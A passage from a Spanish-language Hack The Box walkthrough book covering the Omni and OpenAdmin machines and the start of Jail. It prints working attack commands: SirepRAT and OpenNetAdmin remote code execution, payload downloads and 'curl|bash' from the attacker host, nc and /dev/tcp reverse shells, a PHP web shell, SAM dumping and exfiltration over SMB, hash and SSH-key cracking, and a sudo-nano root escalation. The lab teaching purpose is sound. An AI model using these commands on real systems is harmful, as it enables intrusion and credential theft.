Aqui vemos que no a pasado nada y que no hemos recibido ningun GET a nuestro servidor python.

Miramos si funcciona usando un directorio \href{https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md}{applocker}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd }\StringTok{"C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe"}\NormalTok{ --args }\StringTok{" /c certutil.exe -f -urlcache -split http://10.10.14.8/nc64.exe C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}spool\textbackslash{}drivers\textbackslash{}color\textbackslash{}nc64.exe"}\NormalTok{ --v}
\end{Highlighting}
\end{Shaded}

No funcciona. Intentamos con Powershell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd }\StringTok{"powershell"}\NormalTok{ --args }\StringTok{" /c iwr -uri http://10.10.14.8/nc64.exe -OutFile C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}spool\textbackslash{}drivers\textbackslash{}color\textbackslash{}nc64.exe"}\NormalTok{ --v}
\end{Highlighting}
\end{Shaded}

Ahora si. Intentamos entablarnos una reverseshell.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos la shell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd }\StringTok{"C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe"}\NormalTok{ --args }\StringTok{" /c C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}spool\textbackslash{}drivers\textbackslash{}color\textbackslash{}nc64.exe -e cmd 10.10.14.8 443"}\NormalTok{ --v}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya estamos a dentre de la maquina victima.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}
\StringTok{'whoami'} \ExtensionTok{is}\NormalTok{ not recognized as an internal or external command.}

\BuiltInTok{echo}\NormalTok{ %USERNAME%}
\CommentTok{#Output}
\ExtensionTok{Omni}
\end{Highlighting}
\end{Shaded}

Como no hay directorio de usuarios en la maquina buscamos recursivamente por un fichero llamado \texttt{user.txt}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{dir}\NormalTok{ /r /s user.txt}
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Data\textbackslash{}Users\textbackslash{}app}
\BuiltInTok{type}\NormalTok{ user.txt}
\end{Highlighting}
\end{Shaded}

Aqui vemos quel fichero esta de typo \texttt{System.Management.Automation.PSCredential} que significa que esta cifrado. Intentamos leerlo con
el comando \texttt{(Import-CliXml\ -Path\ user.txt)} pero no nos deja. Miramos los derechos de este fichero con \texttt{icacls\ user.txt} y vemos quel usuario
app tiene los derechos full para este fichero. Esto significa que nos tenemos que convertir en el usuario \textbf{app}.

\hypertarget{user-pivoting-2}{%
\subsection*{User Pivoting}\label{user-pivoting-2}}
\addcontentsline{toc}{subsection}{User Pivoting}

Lo raro aqui es que si hacemos
un \texttt{net\ user}, no vemos que existe el usuario \textbf{omni} y esto es turbio porque tambien podria decir que somos un usuario privilegiado.

Si creamos una carpeta en \texttt{C:\textbackslash{}Data\textbackslash{}Users} vemos que podemos crearla sin problema. Intentamos ver si podemos recuperar cosas como \textbf{sam}.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Data\textbackslash{}Users}
\FunctionTok{mkdir}\NormalTok{ Temp}
\BuiltInTok{cd}\NormalTok{ Temp}
\ExtensionTok{reg}\NormalTok{ save HKLM\textbackslash{}system system.backup}
\ExtensionTok{reg}\NormalTok{ save HKLM\textbackslash{}sam sam.backup}
\end{Highlighting}
\end{Shaded}

Nos transferimos los ficheros creando un recurso compartido a nivel de red.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ -smb2support -username s4vitar -password s4vitar123}
\end{Highlighting}
\end{Shaded}

Desde la maquina victima, nos creamos una unidad logica, la qual se conecta a nuestro recurso compartido

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{net}\NormalTok{ use x: }\DataTypeTok{\textbackslash{}\textbackslash{}}\NormalTok{10.10.14.8\textbackslash{}smbFolder /user:s4vitar s4vitar123}
\FunctionTok{dir}\NormalTok{ x:\textbackslash{}}
\NormalTok{dir C:\textbackslash{}Temp}
\ExtensionTok{copy}\NormalTok{ sam.backup x:\textbackslash{}sam}
\ExtensionTok{copy}\NormalTok{ system.backup x:\textbackslash{}system}
\end{Highlighting}
\end{Shaded}

\hypertarget{crackeando-los-hashes-nt-con-john}{%
\subsubsection*{Crackeando los hashes NT con John}\label{crackeando-los-hashes-nt-con-john}}
\addcontentsline{toc}{subsubsection}{Crackeando los hashes NT con John}

Ahora intentamos dumpear los hashes de los usuarios con \textbf{secretsdump}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{secretsdump.py}\NormalTok{ -sam sam -system system LOCAL}
\end{Highlighting}
\end{Shaded}

Hemos podido obtener los hashes NT de los usuarios del systema. Los copiamos y los metemos en un fichero llamado hashes.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hashes --format=NT}
\end{Highlighting}
\end{Shaded}

Aqui hemos podido crackear el hash del usuario \textbf{app}

\hypertarget{creando-una-reverseshell-desde-windows-device-portal}{%
\subsubsection*{Creando una reverseshell desde Windows Device Portal}\label{creando-una-reverseshell-desde-windows-device-portal}}
\addcontentsline{toc}{subsubsection}{Creando una reverseshell desde Windows Device Portal}

Nos connectamos al portal de la web a la url \texttt{http://10.10.10.204:8080}. Aqui buscamos manera de ejecutar comandos como en Cualquier gestor
de contenido o panel de administracion. Y encontramos en el menu Processes un link llamado \textbf{Run command}.

Probamos con \texttt{echo\ \%USERNAME\%} y ejecuta el comando como el usuario app. Creamos un reverseshell.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escuchar por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el ncat previamente uploadeado en el systema

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{C}\NormalTok{:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}spool\textbackslash{}drivers\textbackslash{}color\textbackslash{}nc64.exe -e cmd 10.10.14.8 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya somos el usuario app y intentamos ejecutar la operacion cryptografica para leer la flag.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Data\textbackslash{}app}
\ExtensionTok{powershell}
\KeywordTok{(}\ExtensionTok{Import-CliXml}\NormalTok{ -Path user.txt}\KeywordTok{)}
\KeywordTok{(}\ExtensionTok{Import-CliXml}\NormalTok{ -Path user.txt}\KeywordTok{)}\ExtensionTok{.GetNetworkCredential}\NormalTok{()}
\KeywordTok{(}\ExtensionTok{Import-CliXml}\NormalTok{ -Path user.txt}\KeywordTok{)}\ExtensionTok{.GetNetworkCredential}\NormalTok{()}\ExtensionTok{.password}
\end{Highlighting}
\end{Shaded}

Ya tenemos la flag.

\hypertarget{privilege-escalation-27}{%
\section*{Privilege Escalation}\label{privilege-escalation-27}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-36}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-36}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{dir}
\end{Highlighting}
\end{Shaded}

Aqui vemos un fichero un poco raro llamado iot-admin.xml y el contenido tambien es un secret string.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{(}\ExtensionTok{Import-CliXml}\NormalTok{ -Path iot-admin.xml}\KeywordTok{)}\ExtensionTok{.GetNetworkCredential}\NormalTok{()}\ExtensionTok{.password}
\end{Highlighting}
\end{Shaded}

Ya vemos un password para el usuario admin. Intentamos connectar al Windows Device Portal con el usuario administrator y
podemos connectarnos. Esto significa que vamos a hacer lo mismo que con el usuario app.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escuchar por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el ncat previamente uploadeado en el systema

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{C}\NormalTok{:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}spool\textbackslash{}drivers\textbackslash{}color\textbackslash{}nc64.exe -e cmd 10.10.14.8 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya somos el usuario Administrator y intentamos ejecutar la operacion cryptografica para leer la flag.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Data\textbackslash{}administrator}
\ExtensionTok{powershell}
\KeywordTok{(}\ExtensionTok{Import-CliXml}\NormalTok{ -Path root.txt}\KeywordTok{)}
\KeywordTok{(}\ExtensionTok{Import-CliXml}\NormalTok{ -Path root.txt}\KeywordTok{)}\ExtensionTok{.GetNetworkCredential}\NormalTok{()}
\KeywordTok{(}\ExtensionTok{Import-CliXml}\NormalTok{ -Path user.txt}\KeywordTok{)}\ExtensionTok{.GetNetworkCredential}\NormalTok{()}\ExtensionTok{.password}
\end{Highlighting}
\end{Shaded}

Ya tenemos la flag del usuario Administrator.

\hypertarget{openadmin}{%
\chapter*{OpenAdmin}\label{openadmin}}
\addcontentsline{toc}{chapter}{OpenAdmin}

\hypertarget{introduccion-44}{%
\section*{Introduccion}\label{introduccion-44}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama OpenAdmin.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=0vmm0I644fs}{\includegraphics{https://img.youtube.com/vi/0vmm0I644fs/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-44}{%
\section*{Enumeracion}\label{enumeracion-44}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-44}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-44}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-44}{%
\subsubsection*{Ping}\label{ping-44}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.171}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-44}{%
\subsubsection*{Nmap}\label{nmap-44}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.171}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.171 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 10.10.10.171 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & tcp & Conneccion directa & creds\tabularnewline
80 & tcp & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-27}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-27}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-34}{%
\subsubsection*{Whatweb}\label{whatweb-34}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.171}
\end{Highlighting}
\end{Shaded}

Es un Apache 2.4.29 en un Ubuntu.

\hypertarget{checkear-la-web-11}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-11}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.171}, Vemos la Apache2 default page.

\hypertarget{fuzzing-con-wfuzz-15}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-15}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.171/FUZZ}
\end{Highlighting}
\end{Shaded}

Vemos un directorio \texttt{/arcwork} que no nos muestra gran cosa. Tambien vemos un directorio \texttt{/music} y vemos que el login nos lleva a un directorio
\texttt{/ona}

Pinchamos y llegamos a un panel de administracion de \texttt{opennetadmin}

\hypertarget{vulnerability-assessment-31}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-31}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{opennetadmin}{%
\subsection*{opennetadmin}\label{opennetadmin}}
\addcontentsline{toc}{subsection}{opennetadmin}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ opennetadmin}
\end{Highlighting}
\end{Shaded}

Aqui vemos un exploit en bash para para el opennetadmin 18.1.1 y en la web estamos frente a uno de esta misma version

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -x 47691}
\end{Highlighting}
\end{Shaded}

Vemos que es un simple oneliner que envia con curl una peticion por POST. Intentamos con un whoami

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -d }\StringTok{"xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo }\DataTypeTok{\textbackslash{}"}\StringTok{BEGIN}\DataTypeTok{\textbackslash{}"}\StringTok{;whoami;echo }\DataTypeTok{\textbackslash{}"}\StringTok{END}\DataTypeTok{\textbackslash{}"}\StringTok{&xajaxargs[]=ping"} \StringTok{"http://10.10.10.171/ona/"} \KeywordTok{|} \FunctionTok{sed}\NormalTok{ -n -e }\StringTok{'/BEGIN/,/END/ p'} \KeywordTok{|} \FunctionTok{tail}\NormalTok{ -n +2 }\KeywordTok{|} \FunctionTok{head}\NormalTok{ -n -1 }\KeywordTok{|} \ExtensionTok{html2text}
\end{Highlighting}
\end{Shaded}

Vemos que esto funcciona sin problemas. Intentamos ver si tenemos conectividad con la maquina.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Lanzamos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos una peticion curl a nuestra maquina

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -d }\StringTok{"xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo }\DataTypeTok{\textbackslash{}"}\StringTok{BEGIN}\DataTypeTok{\textbackslash{}"}\StringTok{;curl 10.10.14.8;echo }\DataTypeTok{\textbackslash{}"}\StringTok{END}\DataTypeTok{\textbackslash{}"}\StringTok{&xajaxargs[]=ping"} \StringTok{"http://10.10.10.171/ona/"} \KeywordTok{|} \FunctionTok{sed}\NormalTok{ -n -e }\StringTok{'/BEGIN/,/END/ p'} \KeywordTok{|} \FunctionTok{tail}\NormalTok{ -n +2 }\KeywordTok{|} \FunctionTok{head}\NormalTok{ -n -1}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Como hemos recibido la peticion get, intentamos ganar accesso al systema.

\hypertarget{vuln-exploit-gaining-access-31}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-31}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-curl-al-opennetadmin}{%
\subsection*{Ganando accesso con curl al opennetadmin}\label{ganando-accesso-con-curl-al-opennetadmin}}
\addcontentsline{toc}{subsection}{Ganando accesso con curl al opennetadmin}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Creamos un fichero index.html con codigo bash

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\FunctionTok{bash}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/tcp/10.10.14.8/443} \OperatorTok{0>&1}
\end{Highlighting}
\end{Shaded}
\item
  Creamos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el curl con reverseshell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -d }\StringTok{"xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo }\DataTypeTok{\textbackslash{}"}\StringTok{BEGIN}\DataTypeTok{\textbackslash{}"}\StringTok{;curl 10.10.14.8|bash;echo }\DataTypeTok{\textbackslash{}"}\StringTok{END}\DataTypeTok{\textbackslash{}"}\StringTok{&xajaxargs[]=ping"} \StringTok{"http://10.10.10.171/ona/"} \KeywordTok{|} \FunctionTok{sed}\NormalTok{ -n -e }\StringTok{'/BEGIN/,/END/ p'} \KeywordTok{|} \FunctionTok{tail}\NormalTok{ -n +2 }\KeywordTok{|} \FunctionTok{head}\NormalTok{ -n -1}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya hemos ganado accesso al systema.

\hypertarget{tratamiento-de-la-tty-25}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-25}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{user-pivoting-3}{%
\subsection*{User Pivoting}\label{user-pivoting-3}}
\addcontentsline{toc}{subsection}{User Pivoting}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}
\FunctionTok{grep}\NormalTok{ -r -i -E }\StringTok{"user|pass|key|database"}
\FunctionTok{grep}\NormalTok{ -r -i -E }\StringTok{"user|pass"}
\BuiltInTok{cd}\NormalTok{ /home}
\FunctionTok{find}\NormalTok{ \textbackslash{}-name user.txt }\OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{find}\NormalTok{ \textbackslash{}-name user.txt}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ /var/www}
\FunctionTok{ls}\NormalTok{ -la}
\BuiltInTok{cd}\NormalTok{ internal}
\BuiltInTok{cd}\NormalTok{ /opt/ona/www}
\FunctionTok{ls}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep} \StringTok{"config"}
\end{Highlighting}
\end{Shaded}

Aqui no hemos podido entrar en los directorios de los usuarios, y en el directorio internal del \texttt{/var/www}. Hemos visto
quel directorio \texttt{/var/www/ona} era un link symbolico a \texttt{/opt/ona/www} y buscando por archivos conteniendo config en su nombre,
hemos caido en un fichero \texttt{database\_settings.inc.php} que contiene credenciales.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{grep} \StringTok{"sh$"}\NormalTok{ /etc/passwd}
\FunctionTok{su}\NormalTok{ jimmy}
\ExtensionTok{Password}\NormalTok{: }
\end{Highlighting}
\end{Shaded}

Hemos podido conectarnos como el usuario \textbf{jimmy} pero la flag no esta en su directorio de usuario. Parece que tenemos que convertirnos
en el usuario \textbf{joanna}.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\end{Highlighting}
\end{Shaded}

Aqui vemos quel usuario es parte del grupo \textbf{internal}. Miramos lo que hay en el directorio \texttt{/var/www/internal}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /var/www/internal}
\FunctionTok{ls}\NormalTok{ -la}
\FunctionTok{cat}\NormalTok{ main.php}
\end{Highlighting}
\end{Shaded}

Vemos que en la web de internal se podria ver el id\_rsa de joanna. Miramos la configuracion de esta web

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /etc/apache2/sites-available}
\FunctionTok{cat}\NormalTok{ internal.conf}
\end{Highlighting}
\end{Shaded}

Aqui vemos que hay una web montada en local por el puerto 52846. Lo mas interesante aqui es quel usuario joanna a sido asignada
como AssignUserID de este servicio. Intentamos comprometer este servicio, directamente desde la maquina victima.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /var/www/internal}
\ExtensionTok{curl}\NormalTok{ localhost:52846}
\end{Highlighting}
\end{Shaded}

Aqui vemos que podemos acceder a la web internal.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  creamos un nuevo fichero s4vishell.php

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \FunctionTok{system}\OtherTok{(}\StringTok{"whoami"}\OtherTok{);}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos una peticion get a este fichero

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ localhost:52846/s4vishell.php}
\CommentTok{#Output}
\ExtensionTok{joanna}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

En el fichero \texttt{main.php} vemos que hace un echo de la id\_rsa de joanna. Lo miramos con curl

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ localhost:52846/main.php}
\end{Highlighting}
\end{Shaded}

copiamos la key en un fichero joanna\_rsa en nuestra maquina de ataquante y nos connectamos con ssh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{chmod}\NormalTok{ 600 joanna_rsa}
\FunctionTok{ssh}\NormalTok{ joana@10.10.10.171 -i joanna_rsa}
\end{Highlighting}
\end{Shaded}

Aqui vemos que la id\_rsa esta protegida por una contraseña. Crackeamos la llave.

\hypertarget{crackeamos-la-id_rsa-con-ssh2john}{%
\subsubsection*{Crackeamos la id\_rsa con ssh2john}\label{crackeamos-la-id_rsa-con-ssh2john}}
\addcontentsline{toc}{subsubsection}{Crackeamos la id\_rsa con ssh2john}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{/usr/share/john/ssh2john.py}\NormalTok{ joanna_rsa }\OperatorTok{>}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ --wordlists=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

Aqui ya tenemos la contraseña de la id\_rsa de joanna y nos podemos conectar

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i joanna_rsa joanna@10.10.10.171}
\ExtensionTok{Enter}\NormalTok{ passphrase}
\end{Highlighting}
\end{Shaded}

y ya podemos leer la flag.

\hypertarget{privilege-escalation-28}{%
\section*{Privilege Escalation}\label{privilege-escalation-28}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-37}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-37}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Aqui vemos que podemos ejecutar nano /opt/priv como el usuario root sin proporcionar contraseña.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -u root nano /opt/priv}

\ExtensionTok{Ctrl+r}
\ExtensionTok{Ctrl+x}

\FunctionTok{chmod}\NormalTok{ 4755 /bin/bash}

\ExtensionTok{Enter}
\end{Highlighting}
\end{Shaded}

Ya podemos ver que la \texttt{/bin/bash} tiene privilegios SUID y que podemos convertirnos en root para leer la flag

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -la /bin/bash}
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{jail}{%
\chapter*{Jail}\label{jail}}
\addcontentsline{toc}{chapter}{Jail}

\hypertarget{introduccion-45}{%
\section*{Introduccion}\label{introduccion-45}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Jail.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=IdFJ5vW_Enc}{\includegraphics{https://img.youtube.com/vi/IdFJ5vW_Enc/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-45}{%
\section*{Enumeracion}\label{enumeracion-45}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-45}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-45}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-45}{%
\subsubsection*{Ping}\label{ping-45}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.34}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-45}{%
\subsubsection*{Nmap}\label{nmap-45}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.34}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.34 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 10.10.10.34 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & tcp & Conneccion directa & creds\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
111 & rpcbind & &\tabularnewline
2049 & nfs & &\tabularnewline
7411 & daqstream & &\tabularnewline
20048 & mountd & &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-28}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-28}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-35}{%
\subsubsection*{Whatweb}\label{whatweb-35}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.34}
\end{Highlighting}
\end{Shaded}

Es un Apache 2.4.6 en un CentOS.

\hypertarget{checkear-la-web-12}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-12}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.34}, Vemos la Apache2 default page.

\hypertarget{checkeando-la-cavezera-con-curl-1}{%
\subsubsection*{Checkeando la cavezera con curl}\label{checkeando-la-cavezera-con-curl-1}}
\addcontentsline{toc}{subsubsection}{Checkeando la cavezera con curl}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.34"}
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.34"}\NormalTok{ -I}
\end{Highlighting}
\end{Shaded}

\hypertarget{fuzzing-con-wfuzz-16}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-16}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
